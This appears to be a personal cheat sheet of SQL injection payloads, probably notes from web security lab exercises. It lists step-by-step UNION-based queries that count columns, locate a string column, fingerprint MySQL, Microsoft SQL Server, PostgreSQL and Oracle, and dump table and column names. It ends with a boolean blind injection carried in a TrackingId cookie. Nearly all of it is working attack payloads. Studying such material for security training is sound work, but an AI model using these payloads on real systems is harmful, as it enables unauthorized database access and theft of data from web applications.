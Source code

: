 ### check the num of cols being returned 
```sql
catergory=lifstyle' order by 1 -- => 200 ? => continue '
catergory=lifstyle' order by 2 -- => 200 ? => continue'
catergory=lifstyle' order by 3 -- => 500 ? => there is only 2 cols being used  '
-- if in mysql 
catergory=lifstyle' union select 1,2,3 --
```

### check for the col with string type
```SQL
catergory=lifstyle' union select null,null,'a' -- => 500 ? => not the right col'
catergory=lifstyle' union select null,'a',null -- => 200 ? => the right col ' 

```

### check for the DB type again
```sql
catergory=lifstyle' union select null,@@version,null -- => 200 ? => MYsql or Microsoft'
catergory=lifstyle' union select null,version(),null -- => 200 ? => PostgresQL'
catergory=lifstyle' union select null,banner,null from v$version -- => 200 ? => Oracle'
```


### check the DB contents 
#### Mysql , Microsoft, PostgreSQL
##### Dump the tables names
```sql
catergory=lifstyle' union select null,table_name,null from information_schema.tables --
```
##### Dump the cols names of a table 
```sql
catergory=lifstyle' union select null,column_name,null from information_schema.columns where table_name ='tablename' -- 
```

#### Oracle 
##### Dump the tables names
```sql
catergory=lifstyle' union select null,table_name,null from all_tables -- 
```
##### Dump the cols names of a table 
```sql 
catergory=lifstyle' union select null,column_name,null from ALL_TAB_COLUMNS where table_name='table_name' -- 
```

### Blind Attacks 
- ==check the references for more DB types payloads==
#### Conditional responses 
- a diff response body between succeed and failed requests
```sql
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+1=1-- => welcome back '
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+1=2-- => no welcome back '
```
